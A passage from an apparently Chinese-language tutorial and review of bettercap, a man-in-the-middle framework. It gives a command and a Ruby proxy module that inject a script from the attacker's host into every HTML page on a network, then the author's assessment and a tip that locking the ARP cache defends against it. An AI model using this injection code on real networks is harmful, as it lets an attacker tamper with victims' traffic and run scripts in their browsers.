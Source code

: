 功能为替换所有html的标题选项

### 4、BUILTIN HTTP SERVER

内置HTTP SERVER功能，可篡改HTTP响应包内容

用法举例：

在网络的每一个HTTP响应中注入JS文件

```
sudo bettercap --httpd --http-path=/path/to/your/js/file/ --proxy --proxy-module=inject.rb

```

Ruby参考示例：

```
class InjectJS < Proxy::Module
  def on_request( request, response )
    # is it a html page?
    if response.content_type == 'text/html'
      Logger.info "Injecting javascript file into http://#{request.host}#{request.url} page"
      # get the local interface address and HTTPD port
      localaddr = Context.get.iface[:ip_saddr]
      localport = Context.get.options[:httpd_port]
      # inject the js
      response.body.sub!( '</title>', "</title><script src='http://#{localaddr}:#{localport}/file.js' 

type='text/javascript'></script>" )
    end
  end
end

```

0x06测试心得
--------

* * *

亮点：

> 中间人攻击利用框架的开发，便携，安装简单 整合了各种常用功能，功能模块化，自动欺骗攻击，提高效率 极大降低了工具的使用和开发门槛

### 不足：

```
目前只支持arp欺骗，功能仍需完善。
暂不支持windows

```

0x07总结
------

* * *

之前我用过c++开发arp欺骗&中间人攻击的程序,个人认为arp欺骗的成功与否关键在于ARP缓存表的修改，**锁定ARP缓存表目前就能防御bettercap基于arp的中间人攻击**但我相信，bettercap的前景十分广阔。

0x08补充
------

* * *

bettercap下载地址：

http://www.bettercap.org/

水平有限，欢迎补充。